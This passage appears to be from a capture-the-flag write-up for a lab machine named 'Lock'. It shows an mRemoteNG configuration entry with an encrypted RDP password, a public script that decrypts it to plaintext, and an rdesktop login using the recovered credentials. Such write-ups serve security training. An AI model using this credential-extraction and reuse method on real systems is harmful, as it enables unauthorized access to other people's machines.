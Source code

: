 ```bash
    <Node Name="RDP/Gale" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="a179606a-a854-48a6-9baa-491d8eb3bddc" Username="Gale.Dekarios" Domain="" Password="TYkZkvR2YmVlm2T2jBYTEhPU2VafgW1d9NSdDX+hUYwBePQ/2qKx+57IeOROXhJxA7CczQzr1nRm89JulQDWPw==" Hostname="Lock" Protocol="RDP" PuttySession="Default Settings" Port="3389" ConnectToConsole="false" UseCredSsp="true" RenderingEngine="IE" ICAEncryptionStrength="EncrBasic" RDPAuthenticationLevel="NoAuth" RDPMinutesToIdleTimeout="0" RDPAlertIdleTimeout="false" LoadBalanceInfo="" Colors="Colors16Bit" Resolution="FitToWindow" AutomaticResize="true" DisplayWallpaper="false" DisplayThemes="false" EnableFontSmoothing="false" EnableDesktopComposition="false" CacheBitmaps="false" RedirectDiskDrives="false" RedirectPorts="false" RedirectPrinters="false" RedirectSmartCards="false" RedirectSound="DoNotPlay" SoundQuality="Dynamic" RedirectKeys="false" Connected="false" PreExtApp="" PostExtApp="" MacAddress="" UserField="" ExtApp="" VNCCompression="CompNone" VNCEncoding="EncHextile" VNCAuthMode="AuthVNC" VNCProxyType="ProxyNone" VNCProxyIP="" VNCProxyPort="0" VNCProxyUsername="" VNCProxyPassword="" VNCColors="ColNormal" VNCSmartSizeMode="SmartSAspect" VNCViewOnly="false" RDGatewayUsageMethod="Never" RDGatewayHostname="" RDGatewayUseConnectionCredentials="Yes" RDGatewayUsername="" RDGatewayPassword="" RDGatewayDomain="" InheritCacheBitmaps="false" InheritColors="false" InheritDescription="false" InheritDisplayThemes="false" InheritDisplayWallpaper="false" InheritEnableFontSmoothing="false" InheritEnableDesktopComposition="false" InheritDomain="false" InheritIcon="false" InheritPanel="false" InheritPassword="false" InheritPort="false" InheritProtocol="false" InheritPuttySession="false" InheritRedirectDiskDrives="false" InheritRedirectKeys="false" InheritRedirectPorts="false" InheritRedirectPrinters="false" InheritRedirectSmartCards="false" InheritRedirectSound="false" InheritSoundQuality="false" InheritResolution="false" InheritAutomaticResize="false" InheritUseConsoleSession="false" InheritUseCredSsp="false" InheritRenderingEngine="false" InheritUsername="false" InheritICAEncryptionStrength="false" InheritRDPAuthenticationLevel="false" InheritRDPMinutesToIdleTimeout="false" InheritRDPAlertIdleTimeout="false" InheritLoadBalanceInfo="false" InheritPreExtApp="false" InheritPostExtApp="false" InheritMacAddress="false" InheritUserField="false" InheritExtApp="false" InheritVNCCompression="false" InheritVNCEncoding="false" InheritVNCAuthMode="false" InheritVNCProxyType="false" InheritVNCProxyIP="false" InheritVNCProxyPort="false" InheritVNCProxyUsername="false" InheritVNCProxyPassword="false" InheritVNCColors="false" InheritVNCSmartSizeMode="false" InheritVNCViewOnly="false" InheritRDGatewayUsageMethod="false" InheritRDGatewayHostname="false" InheritRDGatewayUseConnectionCredentials="false" InheritRDGatewayUsername="false" InheritRDGatewayPassword="false" InheritRDGatewayDomain="false" />
</mrng:Connections>
```

We can decrypt the password using the following: [PoC](https://github.com/gquere/mRemoteNG_password_decrypt).
```bash
┌──(kali㉿kali)-[~]
└─$ python3 decrypt.py config.xml
Name: RDP/Gale
Hostname: Lock
Username: Gale.Dekarios
Password: ty8wnW9qCKDosXo6
```

Authenticate via RDP as the gale.dekarios user.
```bash
┌──(kali㉿kali)-[~]
└─$ rdesktop -u "Gale.Dekarios" 10.10.117.165
```
![Pasted image 20240714124620.png](/images/Pasted image 20240714124620.png){: .normal }

